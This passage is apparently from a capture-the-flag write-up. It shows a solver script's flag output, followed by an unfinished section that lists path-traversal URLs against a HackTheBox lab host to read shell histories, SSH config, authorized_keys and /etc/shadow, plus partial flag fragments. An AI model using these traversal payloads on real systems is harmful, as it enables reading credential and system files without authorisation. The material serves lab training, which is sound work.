 and we get the flag:
```shell
bread@sticks:~# python solve.py
TMHC{5yjzx3d265gb7j}
```

    `TMHC{5yjzx3d265gb7j}`

## Other - Category: incomplete


```
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/.bash_history
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/.histdb/zsh-history.db
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/whatcanisudo
view-source:http://docker.hackthebox.eu:30361/?page=../../../../opt/checkflag9of10.exe
view-source:http://docker.hackthebox.eu:30361/?page=../../../../home/web/.zsh_history
view-source:http://docker.hackthebox.eu:30361/?page=../../../../etc/ssh/sshd_config
view-source:http://docker.hackthebox.eu:30361/?page=../../../../../home/web/.ssh/authorized_keys
view-source:http://docker.hackthebox.eu:30361/?page=../../../../../etc/shadow
view-source:http://docker.hackthebox.eu:30361/?page=../../../../../home/flag3of10/.ssh/authorized_keys


flag(1/10):TMHC{y0u_
flag(2/10):0nly_g3t
flag(3/10):#1flag
flag(4/10):
flag(5/10):7iME_:(_
flag(6/10):Bu7_Th3r3_
flag(7/10):
flag(8/10):_A_l0t_
flag(9/10): <? errrrh re>
flag(10/10):
```